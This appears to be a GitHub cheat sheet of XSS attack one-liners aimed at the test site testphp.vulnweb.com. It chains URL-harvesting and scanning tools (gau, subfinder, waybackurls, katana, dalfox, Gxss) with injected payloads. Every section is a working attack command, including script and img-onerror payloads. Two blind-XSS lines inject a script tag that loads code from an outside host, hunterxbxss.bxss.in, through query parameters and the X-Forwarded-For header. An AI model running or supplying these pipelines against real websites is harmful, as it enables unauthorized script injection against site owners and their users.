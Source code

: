 ## XSS One-Liners


### Tools: gau, gf, uro, httpx, Gxss, dalfox

```
gau "http://testphp.vulnweb.com" | gf xss | uro | httpx -silent | Gxss -p Rxss | dalfox pipe
```

### Tools: gau, qsreplace, xsschecker

```
gau "http://testphp.vulnweb.com" | qsreplace '<sCript>confirm(1)</sCript>' | xsschecker -match '<sCript>confirm(1)</sCript>' -vuln
```

### Tools: subfinder,gau, bxss

```
subfinder -d testphp.vulnweb.com | gau | grep "&" | bxss -appendMode -payload '"><script src=https://hunterxbxss.bxss.in></script>' -parameters
```

### Tools: subfinder, gau, bxss

```
subfinder -d testphp.vulnweb.com | gau | bxss -payload '"><script src=https://hunterxbxss.bxss.in></script>' -header "X-Forwarded-For"
```

### Tools: waybackurls, gf, uro, qsreplace, freq

```
echo testphp.vulnweb.com | waybackurls | gf xss | uro | qsreplace '"><img src=x onerror=alert(1);>' | freq | egrep -v 'Not'
```


### Tools: katana, gf, uro, httpx, Gxss, dalfox

```
echo "testphp.vulnweb.com" |  katana -passive -pss waybackarchive,commoncrawl,alienvault -f qurl | gf xss | uro | httpx -silent | Gxss -p Rxss | dalfox pipe
```